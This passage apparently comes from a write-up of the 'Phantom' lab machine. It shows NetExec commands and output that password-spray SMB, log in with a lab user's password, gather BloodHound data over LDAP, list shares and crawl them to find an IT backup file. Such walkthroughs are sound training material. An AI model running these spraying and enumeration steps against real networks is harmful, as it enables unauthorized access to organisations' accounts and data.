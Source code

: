 and do password spray

```sh
➜  Phantom nxc smb DC.phantom.vl -u users.txt -p 'Ph4nt0m@5t4rt!' --continue-on-success

SMB         10.10.96.47     445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
```

ibryant : Ph4nt0m@5t4rt!
### bloodhound
```sh
➜  Phantom nxc ldap DC.phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!'    
SMB         10.10.96.47     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
LDAP        10.10.96.47     389    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
➜  Phantom nxc ldap DC.phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!' --bloodhound --dns-server 10.10.96.47 --collection All
SMB         10.10.96.47     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
LDAP        10.10.96.47     389    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
LDAP        10.10.96.47     389    DC               Resolved collection methods: container, session, trusts, rdp, localadmin, acl, objectprops, psremote, dcom, group
LDAP        10.10.96.47     389    DC               Done in 00M 15S
LDAP        10.10.96.47     389    DC               Compressing output into /root/.nxc/logs/DC_10.10.96.47_2025-03-19_224517_bloodhound.zip
```

but nothing interesting on bloodhound yet.

### other shares
```sh
➜  Phantom nxc smb DC.phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!' --shares             
SMB         10.10.96.47     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB         10.10.96.47     445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
SMB         10.10.96.47     445    DC               [*] Enumerated shares
SMB         10.10.96.47     445    DC               Share           Permissions     Remark
SMB         10.10.96.47     445    DC               -----           -----------     ------
SMB         10.10.96.47     445    DC               ADMIN$                          Remote Admin
SMB         10.10.96.47     445    DC               C$                              Default share
SMB         10.10.96.47     445    DC               Departments Share READ            
SMB         10.10.96.47     445    DC               IPC$            READ            Remote IPC
SMB         10.10.96.47     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.96.47     445    DC               Public          READ            
SMB         10.10.96.47     445    DC               SYSVOL          READ            Logon server share 
```

now we have read access on Departments Share

```sh
➜  Phantom nxc smb DC.phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!' -M spider_plus 
➜  Phantom cat /tmp/nxc_hosted/nxc_spider_plus/10.10.96.47.json
        "IT/Backup/IT_BACKUP_201123.hc": {
            "atime_epoch": "2024-07-06 14:04:14",
            "ctime_epoch": "2024-07-06 14:04:14",
            "mtime_epoch": "2024-07-06 14:04:34",
            "size": "12 MB"
```
